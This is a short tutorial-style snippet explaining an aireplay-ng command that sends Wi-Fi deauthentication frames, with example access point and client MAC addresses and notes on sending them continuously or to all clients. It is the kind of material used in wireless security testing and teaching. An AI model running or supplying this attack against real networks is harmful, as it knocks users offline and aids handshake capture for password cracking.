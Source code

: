 ``` sh
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 wlan0
```

- -0 means deauthentication  
- 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously  
- -a 00:14:6C:7E:40:80 is the MAC address of the access point  
- -c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated  
- wlan0 is the interface name

